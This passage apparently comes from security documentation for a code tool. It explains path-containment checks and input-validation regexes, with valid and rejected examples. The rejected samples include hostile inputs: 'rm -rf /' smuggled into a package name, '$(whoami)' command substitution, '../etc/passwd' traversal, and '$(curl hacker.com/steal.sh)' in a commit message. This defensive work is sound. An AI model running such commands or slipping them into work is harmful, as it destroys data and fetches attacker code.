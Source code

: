 ```
Attack 4: Symlink escape (if symlink points outside)
symlink: myapp/link -> /etc
_is_path_within_root("myapp/link/passwd")
Returns: False (Layer 6: Resolves outside root)

Valid path ✅
_is_path_within_root("myapp/models.py")
Returns: True (All layers pass)
```

---

### 4. Regex Validation Patterns

**10+ Pre-Compiled Regexes**:

**IDENTIFIER_REGEX** (Python/Node package names):
```python
IDENTIFIER_REGEX = re.compile(r"^(?:@[a-zA-Z0-9_-]+/)?[a-zA-Z_][a-zA-Z0-9_-]*$")
```
Valid:
✅ "django"
✅ "rest_framework"
✅ "@angular/core"
✅ "django-rest-framework"

Invalid:
❌ "django; rm -rf /" (semicolon)
❌ "../malicious" (path traversal)
❌ "app$(whoami)" (command substitution)

**SAFE_PATH_REGEX** (File paths):
```python
SAFE_PATH_REGEX = re.compile(r"^(?![./\\])(?!.*[<>:\"|?*])(?!.*[./\\]$)[a-zA-Z0-9_\-\.\/\\]+$")
```
Valid:
✅ "blog/models.py"
✅ "static/css/style.css"
✅ "config/settings.py"

Invalid:
❌ "../etc/passwd" (starts with ..)
❌ "file>output.txt" (contains >)
❌ "C:\Windows\System32" (absolute path - caught by other validation)
❌ "file|grep" (contains |)

**GIT_COMMIT_MSG_REGEX**:
```python
GIT_COMMIT_MSG_REGEX = re.compile(r"^[^$]+$")
```
Valid:
✅ "Add user authentication feature"
✅ "Fix bug in login form"

Invalid:
❌ "Commit message $(curl hacker.com/steal.sh)" (command substitution)

---